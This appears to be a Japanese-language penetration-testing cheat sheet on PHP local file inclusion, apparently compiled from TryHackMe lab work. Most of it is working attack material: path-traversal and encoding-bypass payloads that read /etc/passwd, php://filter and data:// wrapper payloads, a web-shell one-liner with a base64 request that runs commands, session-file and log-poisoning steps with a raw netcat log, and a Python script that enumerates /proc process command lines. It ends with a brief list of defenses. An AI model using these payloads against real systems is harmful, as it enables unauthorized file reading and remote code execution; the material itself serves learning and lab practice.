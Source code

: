 # ファイルインクルージョン

## LFI

### パストラバーサル

```php
# Nullバイト追加で文字列の結合を無効化する
# PHP 5.3.4 以降では機能しない
include("languages/../../../../../etc/passwd%00").".php");
↓
include("languages/../../../../../etc/passwd");
```

```shell
# カレントディレクトリトリック
http://webapp.thm/index.php?lang=/etc/passwd/.
```

```shell
# ../ を削除するフィルターへの対抗例
....//....//....//....//etc/passwd
↓
../../../../etc/passwd

# ../ を URL エンコード %2e%2e%2f
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd

# 二重エンコード（アプリケーションが2回エンコードする場合）
%252e%252e%252f
```

### ラッパー

### PHP ラッパー

```php
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/string.rot13/resource=/etc/passwd
php://filter/string.toupper/resource=/etc/passwd
php://filter/string.tolower/resource=/etc/passwd
php://filter/string.strip_tags/resource=/etc/passwd
```

#### Data ラッパー

```php
data:text/plain,<?php%20phpinfo();%20?>
```

#### ラッパーによる RCE

cmd パラメータで指定したコマンドを実行するペイロード

```php
<?php system($_GET['cmd']); echo 'Shell done!'; ?>
```

Base64 エンコードされたペイロードをデコードするフィルター

```php
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

脆弱性のある URL に、whoami を実行させるリクエストを送信

```shell
http://ip/foo.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami
```

### PHP セッションファイル

下記の脆弱なサーバーコードがあるとする。

```php
if(isset($_GET['page'])){
    $_SESSION['page'] = $_GET['page'];
    echo "You're currently in" . $_GET["page"];
    include($_GET['page']);
}
```

```text
http://ip/foo.php?page=<?php echo phpinfo(); ?>
```

リクエストを送ると、サーバーコードの 2 行目によって、攻撃者が送った PHP コードがセッションファイルに保存される。  
次に、

```text
http://ip/foo.php?page=/var/lib/php/sessions/sess_[sessionID]
```

リクエストを送ると、サーバーコードの 4 行目によって、phpinfo()が実行される。

### ログポイズニング

下記のリクエストを送ると、PHP コード（2 行目の部分）がアクセスログに保存される。  
その後、/var/log/apache2/access.log を include することで PHP コードを実行させる。  

User-Agent に仕込める場合もある。（BurpProxyで書き換えるのが楽）

```php
<?=`$_GET[0]`?>
<?php system($_GET['0']);?>
```

```shell
$ nc 10.10.5.212 80
<?=`$_GET[0]`?>
HTTP/1.1 400 Bad Request
Date: Thu, 23 Nov 2023 05:39:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 335
Connection: close
Content-Type: text/html; charset=iso-8859-1
HTTP/1.1 400 Bad Request
Date: Tue, 07 Jan 2025 01:19:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 333
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at ip-10-10-5-212.eu-west-1.compute.internal Port 80</address>
</body></html>
```

パス

```text
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

## 注目すべきファイル

- `/proc/self/cmdline` 現在のプロセスの起動コマンドライン
- `/proc/self/environ` コンテキストユーザーなど
- `/proc/self/status` プロセスのコマンドラインオプション
- `/proc/[pid]/cmdline` 
- `/proc/[pid]/cwd`
- `/proc/[pid]/environ`

```sh
seq 1000 > pid.txt

ffuf...

# 不明なポートを使っているコマンドを調べる例
ffuf -u http://airplane.thm:8000/?page=../../../../proc/FUZZ/cmdline -c -w ./pid.txt -mr '6048' 
```

コマンドラインをFetchするスクリプト

https://0xb0b.gitbook.io/writeups/tryhackme/2024/airplane

```python
import requests

for i in range(1, 1001):
    print(f"\r{i}", end="", flush=True)
    url = f"http://airplane.thm:8000/?page=../../../../../proc/{i}/cmdline"
    response = requests.get(url)
    
    if response.status_code == 200:
        content = response.text
        if 'Page not found' not in content and content:
            print(f"\r/proc/{i}/cmdline: {content}")
```

## RFI

## セキュリティ

- ユーザー入力の検証
- フレームワークを含むシステムのアップデート
- PHP エラーを OFF にする
- Web アプリケーションファイアウォール（WAF）
- 可能であれば allow_url_fopen, allow_url_include 等のオプション OFF
- ファイル名と場所のホワイトリストとブラックリストの実装
